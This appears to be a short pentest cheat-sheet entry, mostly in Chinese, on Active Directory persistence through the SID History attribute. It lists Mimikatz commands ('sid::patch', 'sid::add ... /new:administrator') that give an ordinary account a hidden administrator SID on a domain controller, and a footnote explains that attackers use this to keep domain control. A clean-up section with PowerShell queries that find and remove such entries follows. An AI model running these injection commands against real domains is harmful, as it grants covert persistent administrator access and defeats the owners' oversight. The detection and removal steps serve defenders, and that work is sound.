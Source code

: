 **域迁移：利用SID History[^1]属性保持用户访问权限。**

```powershell
# On DC
privilege::debug
sid::patch
sid::add /sam:<Username> /new:administrator

Import-Module ActiveDirectory
Get-ADUser  <Username> -Properties sidhistory

wmic useraccount get name,sid #cmd下执行
```
## Clean Up
```powershell
# Use Mimikatz on DC to clean up
mimikatz.exe "privilege::debug" "sid::clear /sam:Username" exit

#使用powershell清理【管理员权限】
Get-ADUser aaa -Properties sidHistory
Set-ADUser -Identity <Username> -remove @{sidhistory='<Administrator_SID>'}

# 查询
Get-ADUser -Filter 'SIDHistory -like "*"' -SearchScope Subtree -Properties sidhistory|?{$_.sidhistory -like "*-500"}
# 清除
Get-ADUser -Filter 'SIDHistory -like "*"' -SearchScope Subtree -Properties sidhistory|?{$_.sidhistory -like "*-500"} | foreach {Set-ADUser $_ -remove @{sidhistory=$_.sidhistory.value}}
```

[^1]: SID History属性是域迁移中的关键特性，它用于保持用户的访问权限不变。在域迁移过程中，如果用户的安全标识符（SID）发生变更，系统会自动将旧的SID添加到用户的SID History属性中。这样做的目的是确保用户在迁移后仍然保留对原有资源的访问权限。利用这一特性，渗透测试工具如mimikatz可以用来将任意用户的旧SID添加到其他用户的SID History属性中。在获得域管理员权限的情况下，攻击者可以通过修改SID History属性来维持对域的控制，即使在用户账户的SID发生变化之后。